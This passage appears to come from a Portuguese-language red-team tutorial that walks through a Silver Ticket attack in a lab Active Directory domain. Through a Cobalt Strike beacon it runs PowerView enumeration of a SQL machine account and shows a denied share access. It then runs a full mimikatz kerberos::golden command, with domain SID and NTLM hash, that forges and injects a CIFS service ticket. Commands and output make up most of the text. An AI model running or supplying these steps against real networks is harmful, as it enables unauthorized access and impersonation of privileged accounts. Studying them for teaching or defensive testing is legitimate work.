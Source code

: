 ```terminal
beacon> powerpick Get-NetComputer -Name SQL | Select name, samaccounttype, pwdlastset
[*] Tasked beacon to run: Get-NetComputer -Name SQL | Select name, samaccounttype, pwdlastset (unmanaged)
[+] host called home, sent: 133715 bytes
[+] received output:

name  samaccounttype pwdlastset         
----  -------------- ----------         
SQL  MACHINE_ACCOUNT 12/02/2020 14:53:05
```

Caso um usuário tente acessar um recurso no qual o mesmo não possui autorização, a negação do acesso é automaticamente efetuada. Para fins de demonstração, foi solicitado o acesso ao serviço de compartilhamento por um usuário que propositalmente não possui privilégios para tal. 

```terminal
beacon> shell dir \\SQL.hnr.local\c$
[*] Tasked beacon to run: dir \\SQL.hnr.local\c$
[+] host called home, sent: 53 bytes
[+] received output:
Access is denied.
```

Para forjar um Silver Ticket, algumas informações adicionais são necessárias: 

Taget: FQDN [(Fully Qualified Domain Name)](https://en.wikipedia.org/wiki/Fully_qualified_domain_name)

Service: Serviço no qual deseja obter acesso (PS-Remoting, WMI, Scheduled Tasks, CIFS, LDAP, WINRM...)

rc4: NTLM Hash do computador/serviço, usado para assinar os tickets de serviço.

```terminal
beacon> mimikatz kerberos::golden /domain:hnr.local /user:admin /sid:S-1-5-21-45967290-1955130809-1078885739 /target:SQL.hnr.local /service:CIFS /rc4:95e93eb10b58109a6b0227d8c821dbdd /ptt
[*] Tasked beacon to run mimikatz's kerberos::golden /domain:hnr.local /user:admin /sid:S-1-5-21-45967290-1955130809-1078885739 /target:SQL.hnr.local /service:CIFS /rc4:95e93eb10b58109a6b0227d8c821dbdd /ptt command
[+] host called home, sent: 998474 bytes
[+] received output:
User      : admin
Domain    : hnr.local (HNR)
SID       : S-1-5-21-45967290-1955130809-1078885739
User Id   : 500
Groups Id : *513 512 520 518 519 
ServiceKey: 95e93eb10b58109a6b0227d8c821dbdd - rc4_hmac_nt      
Service   : CIFS
Target    : SQL.hnr.local
Lifetime  : 01/03/2020 18:39:26 ; 27/02/2030 18:39:26 ; 27/02/2030 18:39:26
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'admin @ hnr.local' successfully submitted for current session
```
